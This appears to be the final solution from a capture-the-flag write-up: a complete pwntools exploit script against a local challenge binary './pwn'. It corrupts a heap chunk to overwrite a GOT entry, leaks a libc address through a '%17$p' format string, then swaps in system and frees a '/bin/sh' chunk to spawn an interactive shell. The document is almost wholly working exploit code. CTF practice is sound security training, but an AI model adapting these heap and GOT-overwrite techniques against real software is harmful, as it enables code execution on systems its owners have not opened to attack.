 put all together
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
context.log_level = 'critical'
context.binary = './pwn'
elf = context.binary
libc = elf.libc
p = process('./pwn')

def show():
    p.sendlineafter(':', '1')

def add(length, name):
    p.sendlineafter(':', '2')
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def edit(idx, length, name):
    p.sendlineafter(':', '3')
    p.sendlineafter(':', str(idx))
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def delete(idx):
    p.sendlineafter(':', '4')
    p.sendlineafter(':', str(idx))

add(0x50, '000000')
add(0x50, '111111')
add(0x10, '.%17$p.')
add(0x10, '/bin/sh\0')

delete(1)
edit(0, 0x100, flat('x' * 0x50, 0, 0x61, 0x601ffa))

add(0x50, '222222')
# add(0x50, cyclic(n=8, length=0x30))
add(0x50, flat('\0' * 14, flat(elf.sym['printf'])[:6]))

delete(2)
p.recvuntil('.')
libc.address = int(p.recvuntil('.', drop = True), 16) - 0x20840
print('libc @ {:#x}'.format(libc.address))
assert libc.address & 0xfff == 0

edit(4, 0x50, flat('\0' * 14, flat(libc.sym['system'])[:6]))
delete(3)

p.interactive()
```
